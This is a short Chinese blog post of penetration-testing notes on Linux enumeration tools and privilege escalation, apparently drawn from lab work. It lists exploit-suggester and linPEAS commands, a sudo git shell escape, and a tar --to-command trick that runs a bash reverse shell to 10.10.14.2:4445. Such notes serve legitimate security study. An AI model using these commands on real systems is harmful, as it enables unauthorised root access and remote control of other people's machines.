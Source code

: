 ```yaml
---
title: Linux漏洞扫描与提权
date: 2021/12/12
tags: [linux,渗透测试,漏洞利用]
categories: 渗透测试
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_19.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_19.jpg
---
```




# Linux漏洞扫描与提权

## 漏洞扫描

- msf

```
use post/multi/recon/local_exploit_suggester
```

- **[windows-exploit-suggester.py](https://github.com/mxrmiss/Automation-script/blob/cb1807ed3582b9d965f77d048f5a8952a69ddd5d/Windows-Exploit-Suggester/Windows-Exploit-Suggester-master/windows-exploit-suggester.py)**
    - 需要安装pip2



- pspy

```
需要先给pspy脚本执行权力才能执行
```

- linPEAS

```
git clone https://github.com/mxrmiss/PEASS-ng.git
```



- LinEnum

```
git clone https://github.com/mxrmiss/LinEnum.git
```





## 提权

-  git

```
sudo git -p help config
# 末行模式下书写
!/bin/sh
```

-  tar

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.2/4445 0>&1' > xxx.sh
tar -cvf xxx.tar xxx.sh
sudo  -u onuma tar -xvf xxx.tar --to-command /bin/bash
```





